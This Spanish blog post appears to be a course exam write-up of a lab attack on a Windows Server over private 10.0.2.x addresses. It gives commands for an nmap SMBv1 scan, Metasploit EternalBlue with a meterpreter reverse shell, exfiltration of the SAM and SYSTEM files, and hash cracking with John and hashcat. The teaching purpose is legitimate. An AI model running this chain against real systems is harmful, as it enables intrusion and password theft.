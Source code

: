 ```yaml
---
title: EXAMEN PARCIAL
date: 2024-11-03 00:00:00 -05:00
categories: [ciberseguridad, seguridad informatica]
tags: [smb, meterpeter, nmap]  # TAG names should always be lowercase
---
```


En este post, vamos a desarrollar el examen parcial.

# 2.1. Escaneo de Red y Enumeración de Servicios (2 puntos) 

nmap -p 139,445 --script smb-protocols 10.0.2.4

![alt text](/assets/images/1.png)

### Explicación:
Los puertos 139 y 445 están asociados con el servicio SMB en Windows. Usamos el flag --script smb-protocols de Nmap para enumerar las versiones de los protocolos SMB que están habilitados.
En los resultados, se muestra que NT LM 0.12 (SMBv1) está habilitado en la máquina Windows Server (10.0.2.4), lo cual es vulnerable.


# 2.2. Exploración de la Vulnerabilidad 

Uso del exploit exploit/windows/smb/ms17_010_eternalblue en Metasploit:

EternalBlue (MS17-010) explota una vulnerabilidad en SMBv1, permitiendo ejecución remota de código en sistemas sin parchar, como Windows Server 2008 R2.
Este exploit es ideal para esta tarea ya que se enfoca en SMBv1, lo que nos permite ejecutar código y obtener una conexión remota con el servidor si tiene SMBv1 activo y es vulnerable a EternalBlue.

# 2.3. Configuración del Exploit en el Framework Metasploit

Inicia Metasploit:
    msfconsole
Selecciona el módulo de EternalBlue:
use exploit/windows/smb/ms17_010_eternalblue
Configura los parámetros necesarios:

![alt text](/assets/images/2.png)

### Explicación de los parámetros:
RHOSTS (Remote Host): IP de la máquina objetivo (Windows Server 10.0.2.4). Indica a Metasploit dónde dirigir el ataque.
LHOST (Local Host): IP de la máquina atacante (Kali Linux 10.0.2.9). Es necesario para recibir la conexión de vuelta (reverse shell).
PAYLOAD: windows/x64/meterpreter/reverse_tcp crea un payload de reverse shell que te permitirá obtener acceso remoto y control sobre la máquina víctima.


# 2.4. Ejecución del Exploit (2 puntos)

Comando para ejecutar el exploit:
exploit
Confirmación de éxito:

![alt text](/assets/images/3.png)

### Explicación de los parámetros:
El exploit se ejecuta correctamente, mensaje en Metasploit Meterpreter session X opened.
Este mensaje confirma que se ha establecido una conexión con la máquina objetivo (Windows Server 10.0.2.4) y ahora se tiene una sesión interactiva.


# 2.5. Exfiltración de Archivos SAM y SYSTEM 

Pasos para exfiltrar los archivos:
Sube el script vssown.vbs a la máquina víctima:
upload /home/user/Desktop/vssown.vbs C:\Windows\Temp\vssown.vbs

![alt text](/assets/images/4.png)

Copia los archivos SAM y SYSTEM desde la copia de volumen de sombra:
![alt text](/assets/images/5.png)

Descarga los archivos a tu máquina atacante:
download C:\Windows\Temp\SAM /ruta/en/Kali/SAM
download C:\Windows\Temp\SYSTEM /ruta/en/Kali/SYSTEM


# 2.6. Análisis de los Archivos Exfiltrados 

### Extracción de hashes de contraseñas en Kali Linux:
Usa samdump2 para extraer los hashes de los archivos SAM y SYSTEM:
samdump2 /ruta/en/Kali/SYSTEM /ruta/en/Kali/SAM > hashes.txt

Con los hashes en hashes.txt, intenta descifrarlos con John the Ripper:
john --format=NT hashes.txt

O bien, usa Hashcat para realizar un ataque con GPU:
hashcat -m 1000 hashes.txt /ruta/a/wordlist

### Explicación:
Samdump2 extrae los hashes de los archivos SAM y SYSTEM, que son esenciales para intentar descifrar las contraseñas de los usuarios.
John the Ripper y Hashcat permiten descifrar los hashes mediante ataques de diccionario o fuerza bruta.

